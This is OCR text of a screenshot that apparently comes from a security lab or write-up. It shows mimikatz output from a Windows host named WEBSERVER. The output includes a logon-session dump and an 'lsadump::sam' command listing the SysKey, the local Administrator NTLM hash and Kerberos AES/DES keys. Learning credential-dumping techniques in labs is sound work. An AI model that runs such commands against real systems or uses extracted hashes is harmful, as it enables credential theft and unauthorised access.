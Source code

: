     Authentication Id : 0 ; 999 (00000000:000003e7)
    Session           : UndefinedLogonType from 0
    User Name         : WEBSERVER$
    Domain            : SPARTANCYBERSEC
    Logon Server      : (null)
    Logon Time        : 11/6/2023 12:16:13 AM
    SID               : S-1-5-18
            msv :
            tspkg :
            wdigest :
             * Username : WEBSERVER$
             * Domain   : SPARTANCYBERSEC
             * Password : (null)
            kerberos :
             * Username : webserver$
             * Domain   : SPARTANCYBERSEC.CORP
             * Password : 34 f7 2c a2 fa 00 56 a8 2a bc a7 ad d3 22 c9 cf dc 8c fe f8 87 ca 51 22 44 fb 80 b4 39 22 31 03 c1 bd 32 46 81 65 98 f4 fc c2 b8 22 fc 84 7f c3 81 fa 69 8d 77 d2 ed e9 57 b4 51 19 4b 1a 94 04 6c fc 1c 42 03 e6 1b 0a e6 90 61 40 10 9e a8 95 33 69 fa f5 65 f6 67 12 15 ae fe b7 64 ce d7 58 27 c7 62 7d 5d 79 40 73 c9 b9 32 2d 7d b1 82 5d ca b5 f2 ec 28 33 ea 00 5a 83 b1 ac b6 cc 63 9b 4a 3f ab 2e f2 41 c1 3c a4 a1 8e 84 51 af 8e a7 76 f0 68 13 e4 23 be 79 32 ff 7a 6a c7 34 ac c5 44 2a c8 91 a1 76 b5 04 c5 31 ad c5 ee 13 f4 96 fa 0f 25 86 5c 34 6e f7 c3 9e e9 1e c6 8b 5c 6a 71 72 dd 8f c2 d2 c5 91 1a c9 e1 3a ac 89 24 ea ef 08 66 30 50 b1 bd d6 39 8e 9b d7 0a 5d a0 e4 b1 21 7c 20 5b dd a1 69 ce 63 d1 70 15 e9 11 f1
            ssp :
            credman :
            cloudap :

    mimikatz(commandline) # lsadump::sam
    Domain : WEBSERVER
    SysKey : ea7b3f466f263386e6dc165bcde0d1d2
    Local SID : S-1-5-21-35825707-945739770-2891244367

    SAMKey : 0f38480331d27a37fb84a64691c96638

    RID  : 000001f4 (500)
    User : Administrator
      Hash NTLM: f47f6266f4bb428db65cd949e7537f52

    Supplemental Credentials:
    * Primary:NTLM-Strong-NTOWF *
        Random Value : 95278d33a26e8418cde3b6bc618d5d4c

    * Primary:Kerberos-Newer-Keys *
        Default Salt : EC2AMAZ-N0S1NB6Administrator
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : 487149fe0751036e0aa497d82728570248f671894c39912e818bc058546478da
          aes128_hmac       (4096) : 95f019490c136ba744dd27b3248d862d
          des_cbc_md5       (4096) : 264a2c3df40ba886
        OldCredentials
          aes256_hmac       (4096) : 27d1fe245f22752ae07fa19e6c4cb8c9a711d23fa43041c3eba9dea1c46879f4
          aes128_hmac       (4096) : 2881481a8717f3d3a4377847a1099566
          des_cbc_md5       (4096) : 76315edf8a0191ea
        OlderCredentials
          aes256_hmac       (4096) : 7e16bff797907f940783a6315b3ab4bd398542aabf2bc888506bce52b0961cf4
          aes128_hmac       (4096) : e87a3a66df7112bf158fd184ffa88547
          des_cbc_md5       (4096) : 4a43754f1c08dca7
